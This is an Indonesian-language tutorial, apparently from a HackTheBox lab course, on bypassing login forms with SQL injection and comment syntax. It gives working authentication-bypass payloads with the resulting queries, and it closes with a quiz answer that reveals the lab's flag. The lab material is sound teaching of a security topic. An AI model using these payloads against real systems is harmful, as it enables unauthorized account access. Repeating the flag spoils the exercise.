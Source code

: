 Sebelumnya kita telah berhasil menembus form login menggunakan logika OR sehingga selalu menghasilkan nilai true walaupun kita tidak mengetahui password dari user. kita memanfaatkan logika AND yang dijalankan terlebih dahulu dibandingkan dengan OR statement. Namun bagaimana jika query dari form login yang digunakan seperti ini,

```sql
SELECT * FROM logins WHERE (username='username' AND id > 1) AND password = 'password';
```

Katakan kita menggunakan payload yang sama dengan sebelumnya, yaitu `admin' OR 1 = '1`, sehingga full quernya,

```sql
SELECT * FROM logins WHERE (username='admin' OR 1 = '1' AND id > 1) AND password = 'password';
```

Opss, logika yang ada didalam paranthesis akan dijalanakn lebih dahulu, lalu di sandingkan lagi dengan logika `AND` setelahnya. Sehingga tetap saja kita harus mengetahui password dari user. 

Oke, kita bisa menggunakan komen yang disediakan oleh SQL, termasuk MySql, Postgre Sql, dan atau MSSQL.

## Comments
Kita dapat menggunakan dua tipe baris komen dengan MySQL `--` dan `#`, dan tambahan in-line comment `/**/` (komen ini tidak biasa digunakan oleh SQL injections).

Khusus untuk koment `--` pastikan setalh dash ke dua haris diberi spasi tambahan menjadi `-- ` dan terkadang baiknya kita tambahkan dash setelah spasi agar kita pastikan sudah ada spash setelah dua dash, `-- -`. Dan terkadang ketika di URL encoded menjadi `--+`.

Jika kita menggunakan `#` dapalam payload di URL, karakter sharp tersebut dianggap tag pada URL, sehingga jika menggunakan payload para URL untuk injeksi url gunakan `%23` yang mana akan di encode menjadi `#`.

##  Bypass using comment
Oke, mari kita manfaatkan komen pada payload pada query yang kita lakukan diatas, `admin' OR 1 = '1');-- -`, sehingga full querynya menjadi

```sql
SELECT * FROM logins WHERE (username='admin' OR 1 = '1');-- -' AND id > 1) AND password = 'password';
```

!!! quote "POC"
    === "Sent payload"
        ![initial payload](aset/3.1.payload-comment.png)

    === "Respone payload"
        ![payload respone](aset/3.2.payload-after-comment.png)



## Quiz
!!! quote "question"
     Login as the user with the id 5 to get the flag. 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"
        
        Ingat kita telah mengetahui sql query (namun pada real life kita tidak mengetahui query login atau query yang mau kita injek seperti apa) login form tersebut;

        ```sql
        SELECT * FROM logins WHERE (username='username' AND id > 1) AND password = 'password';
        ```

        Kita bisa menggunaka payload `1' OR id = '5' AND 1 = '1');-- -` yang membuat query menjadi

        ```sql
        SELECT * FROM logins WHERE (username='1' OR id = '5' AND 1 = '1');-- -' AND id > 1) AND password = 'password';
        ```

        Oke akhirnya kita mendapatkan flag 

        ```
        cdad9ecdf6f14b45ff5c4de32909caec
        ```